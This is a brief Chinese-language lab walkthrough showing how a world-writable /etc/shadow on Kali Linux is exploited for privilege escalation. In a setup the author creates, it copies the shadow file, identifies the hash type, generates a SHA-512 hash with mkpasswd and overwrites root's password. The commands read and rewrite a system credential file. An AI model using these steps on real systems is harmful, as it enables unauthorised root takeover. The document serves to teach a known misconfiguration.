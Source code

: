 ## 可写shadow文件利用

1、root用户赋予读写权限

语法：

```
sudo chmod u=rwx,g=rw,o=r filename
u：用户
g：组
o：其他
```

[【干货】Linux 修改权限命令 chmod 用法示例 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/355450290)

```bash
┌──(root💀kali)-[~]
└─# chmod o=rw /etc/shadow
```

2、kali用户查看 /etc/shadow 权限

```bash
└─$ ls -liah /etc/shadow
3413576 -rw-r--rw- 1 root shadow 1.8K May 20 01:35 /etc/shadow
```

3、复制备份shadow

```bash
┌──(kali㉿kali)-[~]
└─$ cp /etc/shadow  /tmp/shadow.bak    
```

4、查看当前hash加密方式

[Understanding /etc/shadow file format on Linux - nixCraft (cyberciti.biz)](https://www.cyberciti.biz/faq/understanding-etcshadow-file/)

或者

```bash
┌──(kali㉿kali)-[~]
└─$ hash-identifier '$6$JmlEMUxK$1z4jAyPW9M10W4c6T79ly1yO38S9dXWLdj.gflDVsqj4DkhBTMBjLd8u7q5GD4B.SXa4smGrsXZxwJtPNHfRe0'
```

5、本地密码生成

```bash
┌──(root💀kali)-[~]
└─# mkpasswd -m sha-512 zf1yolo
$6$aw/fs6tKrOtp2yzX$nNXpaKzSFBF2caz8FjvRRk9iCF00rYY2BY7qUp8b/lM3Pz1Gtx.KrvDZI9akUrlE08SNzctH522nevqPiaIwq0
```

6、覆盖到 /etc/shadow 里

换了环境，重置root密码为zf1yolo成功
